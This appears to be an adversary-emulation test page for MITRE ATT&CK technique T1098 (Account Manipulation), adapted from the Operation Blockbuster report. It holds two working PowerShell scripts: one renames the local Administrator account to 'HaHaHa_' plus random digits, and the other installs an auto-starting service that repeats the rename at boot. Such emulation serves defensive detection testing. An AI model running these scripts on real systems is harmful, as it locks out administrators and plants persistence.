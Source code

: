 # Account Manipulation

MITRE ATT&CK Technique: [T1098](https://attack.mitre.org/wiki/Technique/T1098)

Adapted from [Operation Blockbuster](https://operationblockbuster.com/wp-content/uploads/2016/02/Operation-Blockbuster-Destructive-Malware-Report.pdf)

## Example 1

If successful, the Administrator account will be renamed with `HaHaHa_` followed by 4 to 16 digits.

    $x = Get-Random -Minimum 2 -Maximum 9999
    $y = Get-Random -Minimum 2 -Maximum 9999
    $z = Get-Random -Minimum 2 -Maximum 9999
    $w = Get-Random -Minimum 2 -Maximum 9999
    Write-Host HaHaHa_$x$y$z$w

    $hostname = (Get-CIMInstance CIM_ComputerSystem).Name

    $fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

    foreach($member in $fmm) {
        if($member -like "*Administrator*") {
            Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
            Write-Host "Successfully Renamed Administrator Account on" $hostname
            }
        }

## Example 2

If successful, a new service will be installed on the system. The service will rename on startup the Administrator account with `HaHaHa_` followed by 4 to 8 digits.

    $x = Get-Random -Minimum 2 -Maximum 99
    $y = Get-Random -Minimum 2 -Maximum 99
    $z = Get-Random -Minimum 2 -Maximum 99
    $w = Get-Random -Minimum 2 -Maximum 99
    $newadmin = "HaHaHa_$x$y$z$w".ToString()

    $serviceName = "Rename Account Service"
    $serviceDisplayName = "Rename Account Service"
    $serviceDescription = "Rename Account Service"
    $serviceExecutable = "wmic useraccount where name='Administrator' rename '$newadmin'"

    if (Get-Service $serviceName -ErrorAction SilentlyContinue)
    {
        $serviceToRemove = Get-WmiObject -Class Win32_Service -Filter "name='$serviceName'"
        $serviceToRemove | Stop-Service
        $serviceToRemove.delete()
    }
    else
    {
        "service does not exists"
    }

    Write-Host "Installing service: $serviceName"
    New-Service -name $serviceName -displayName $serviceDisplayName -binaryPathName $serviceExecutable -startupType Automatic -Description $serviceDescription
    Write-Host "Installation completed: $serviceName"

    Write-Host "Trying to start new service: $serviceName"

    $serviceToStart = Get-WmiObject -Class Win32_Service -Filter "name='$serviceName'"
    $serviceToStart.startservice()
    Write-Host "Service started: $serviceName"
